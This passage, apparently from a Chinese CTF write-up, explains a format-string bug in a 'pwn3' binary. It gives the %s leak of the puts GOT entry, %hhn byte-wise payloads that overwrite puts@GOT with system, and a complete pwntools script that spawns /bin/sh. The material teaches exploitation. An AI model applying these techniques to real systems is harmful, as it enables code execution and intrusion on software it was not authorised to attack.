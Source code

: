 [![](https://p3.ssl.qhimg.com/t01db618865fe3400f9.png)](https://p3.ssl.qhimg.com/t01db618865fe3400f9.png)

上图是sub_080487F6函数中存在格式化字符串漏洞的printf调用前的状况。左下角数据区的红框表明了触发脆弱性的过程，即要先put上去一个文件名和对应的文件内容，然后通过get功能触发脆弱性（再次触发漏洞也要经历这个过程）。而右下角栈区的紫色框是偏移7，保存着我们输入的内容。如果我们输入的内容是puts函数的GOT地址，则通过%s参数就能利用漏洞打印出GOT表项中保存的puts函数的实际调用地址，之前puts函数已被程序调用多次了。这样，我们就可以通过puts函数实际地址的后12bit来查找libc-database，从而获得具体的libc库版本，以及对应的system的实际调用地址，具体方式我放到第三个例子中来讲，大家也可以先跳过去看。

然后，我们要将system的实际调用地址覆写到puts的GOT处，这就要用到%n参数了。假设system函数的地址为0xb7553d00，那么我们可以1个字节1个字节地覆写，以防止一次print字符太多而导致程序崩溃。以上面地址为例，三次覆写的payload是这样的，0xb7不用覆写，与puts一样。

```
payload = p32(putsGOT)+"%"+str(256-4)+"x%7$hhn"
payload = p32(putsGOT+1)+"%"+str(((systemAddress&amp;0x0000FF00)&gt;&gt;8)-4)+"x%7$hhn"
payload = p32(putsGOT+2)+"%"+str(((systemAddress&amp;0x00FF0000)&gt;&gt;16)-4)+"x%7$hhn"
```

比较特殊的是第一次覆写，要写入的是0x00，我们打印256（0x100）字节的话，正好实现了0x00的写入。而后面两次覆写只需要注意将puts函数的GOT地址加1就可以实现覆写一字节了。

最后，我们通过调用dir功能来实现system的间接调用。需要注意的是，dir功能是利用puts函数来打印已输入的所有文件名字符串拼接后的结果。如果想实现system(“/bin/sh”)，就需要让前几次输入的文件名拼接之和正好是“/bin/sh”。具体漏洞利用代码如下。

```
from pwn import *
import binascii
def put(name, content):
    p.sendline("put")
    print p.recvuntil(":")
    p.sendline(name)
    print p.recvuntil(":")
    p.sendline(content)
    print p.recvuntil("&gt;")
def get(name):
    p.sendline("get")
    print p.recvuntil(":")
    p.sendline(name)
    data = p.recvuntil("&gt;")
    print hexdump(data)
    return data
p = process("./pwn3")
elf = ELF("./pwn3")
putsGOT = elf.got['puts']
mallocGOT = elf.got['malloc']
print "----------1. leak address----------"
print p.recvuntil(":")
p.sendline("rxraclhm")
print p.recvuntil("&gt;")
put("/sh", p32(putsGOT)+".%7$s")
data = get("/sh")
putsAddress = binascii.hexlify(data[5:9][::-1])
systemOffset = 0x3ad00 # 这是我本地libc的偏移
putsOffset = 0x61ce0
binshOffset = 0x15c7e8
systemAddress = int(putsAddress,16)-putsOffset+systemOffset
binshAddress = int(putsAddress,16)-putsOffset+binshOffset
print "----------2. point puts@got to systemAddress----------"
payload = p32(putsGOT)+"%"+str(256-4)+"x%7$hhn"
put("n", payload)
get("n")
payload = p32(putsGOT+1)+"%"+str(((systemAddress&amp;0x0000FF00)&gt;&gt;8)-4)+"x%7$hhn"
put("i", payload)
get("i")
payload = p32(putsGOT+2)+"%"+str(((systemAddress&amp;0x00FF0000)&gt;&gt;16)-4)+"x%7$hhn"
put("/b", payload)  #四次put的文件名拼接后正好是“/bin/sh”。
get("/b")
p.sendline("dir")
p.interactive()
```